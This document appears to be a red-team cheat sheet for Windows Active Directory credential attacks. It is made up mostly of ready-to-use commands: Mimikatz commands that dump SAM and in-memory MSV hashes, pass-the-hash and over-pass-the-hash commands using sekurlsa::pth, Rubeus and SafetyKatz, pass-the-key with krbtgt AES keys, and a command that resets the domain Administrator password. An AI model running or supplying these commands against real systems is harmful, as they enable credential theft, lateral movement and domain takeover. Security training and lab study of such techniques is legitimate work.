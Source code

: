 # Hashes

## Dump Hashes

### **1st way**

#### **Dump Hashes from Sam file**

```powershell
Invoke-Mimikatz -command '"privilege::debug" "token::elevate" "lsadump::sam""exit"'
```

### **2nd way**

#### **dump MSV credentials from memory**

```powershell
Invoke-Mimikatz -command '"privilege::debug" "token::elevate" "sekurlsa::msv""exit"'
```

***

## Pass-the-Hash

Uses the NTLM hash directly to authenticate without knowing the real password.

for NTLM Hash

```powershell
sekurlsa::pth /user:**Administrator** /ntlm:a102ad5753f4c441e3af31c97fad86fd /domain:pdc /run:powershell.exe
# replace with target user
```

***

## Over Pass The Hash

Uses the NTLM hash to request a **Kerberos TGT**, then uses the TGT to authenticate anywhere in the domain.

```powershell
Rubeus.exe asktgt /user:SHALBY /rc4:5D88C6E440C1B976A9C1A2EF6AD66083  /ptt

# machine user

Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:us.techcorp.local /aes256:<aes256key> /run:powershell.exe"'

SafetyKatz.exe "sekurlsa::pth /user:administrator /domain:us.techcorp.local /aes256:<aes256keys>  /run:cmd.exe" "exit"

Rubeus.exe asktgt /user:administrator /aes256:<aes256keys> /opsec /createnetonly:C:\\Windows\\System32\\cmd.exe /show /ptt
```

***

## Pass-the-Key

**Pass-the-Key (PtK)** uses **Kerberos keys** (AES/DES keys from tickets) instead of passwords or NTLM hashes to authenticate to services.

```powershell
sekurlsa::pth /user:Administrator /domain:us.techcorp.local /aes256:<aes256 krbtgt hash> /run:powershell.exe

SafetyKatz.exe "sekurlsa::pth /user:administrator /domain:us.techcorp.local /aes256:<aes256 krbtgt hash> /run:cmd.exe" “exit”
```

```powershell
net user Administrator "test@123" /dom
```
